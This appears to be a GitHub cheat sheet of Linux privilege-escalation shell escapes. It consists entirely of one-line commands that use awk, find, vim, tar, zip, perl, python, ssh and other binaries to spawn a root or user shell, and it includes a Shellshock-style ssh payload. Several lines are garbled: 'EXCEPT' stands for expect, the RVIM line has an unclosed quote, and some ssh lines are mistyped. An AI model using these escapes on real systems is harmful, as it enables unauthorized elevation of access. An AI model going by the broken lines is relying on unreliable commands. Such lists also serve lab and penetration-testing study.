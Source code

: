 # Linux privilege escalation

## AWK
```
awk 'BEGIN {system("/bin/bash")}'
```


## EXCEPT
```
except spawn sh then sh
```

## FIND
```
find / -name test -exec /bin/sh or /bin/bash \;
```

## FTP
```
!/bin/sh or !/bin/bash
```
## GDB
```
!/bin/sh
!/bin/bash
```

## GIT
```
git help status
!/bin/bash
```

## LUA
```
os.execute('/bin/sh').
```

## MAN / MORE / LESS
```
man man
!sh
```

## PERL
```
perl -e 'exec "/bin/bash";'
```

## PHP
```
php -a then exec("sh -i");
```

## PICO
```
pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
```


## PYTHON
```
python -c 'import os;os.system("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/sh")'
```

## RUBY
```
exec "/bin/sh"
```
## RVIM
```
:python import os; os.system("/bin/bash )
```

## SCP
```
scp -S /path/yourscript x y:
```

## SSH
```
ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh username@IP -t "bash --noprofile"
ssh username@IP -t "() { :; }; /bin/bash"
sh -o ProxyCommand="sh -c /tmp/ooo.sh" 127.0.0.1
```


## TAR
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


## VIM
```
vim
  :set shell=/bin/bash
  :shell

!/bin/sh
!/bin/bash
```

## ZIP
```
sudo -u app-script-ch14-4 zip  /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

